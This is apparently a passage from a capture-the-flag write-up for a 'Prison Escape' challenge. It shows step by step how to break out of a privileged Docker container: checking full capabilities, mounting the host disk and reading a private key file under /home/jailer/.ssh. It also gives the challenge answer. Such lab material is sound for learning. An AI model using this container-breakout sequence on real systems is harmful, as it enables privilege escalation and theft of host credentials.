 `git clone https://haugfactory.com/asnowball/aws_scripts`

Also an interesting file: `~/.ssh/id_rsa`.

## Prison Escape
What hex string appears in the host file `/home/jailer/.ssh/jail.key.priv`?
`082bb339ec19de4935867`.

Hint from `Bow Ninecandle`

```
Developers love to give ALL TeH PERMz so that things "just work," but it can
cause real problems.

It's always smart to check for excessive user and container permissions.

You never know! You might be able to interact with host processes or
filesystems!
```

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

```
$ grep Cap /proc/1/status
CapInh: 0000000000000000
CapPrm: 0000003fffffffff
CapEff: 0000003fffffffff
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

# had to use it on my own machine
$ capsh --decode=0000003fffffffff
0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,
cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,
cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,
cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,
cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,
cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,
cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,
cap_wake_alarm,cap_block_suspend,cap_audit_read
```

```
# become root
$ sudo -s

$ fdisk -l
fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table

# mount the host file system
$ mount /dev/vda /mnt

# read the secret file
$ cat /mnt/home/jailer/.ssh/jail.key.priv
# [removed]
# become admin
```
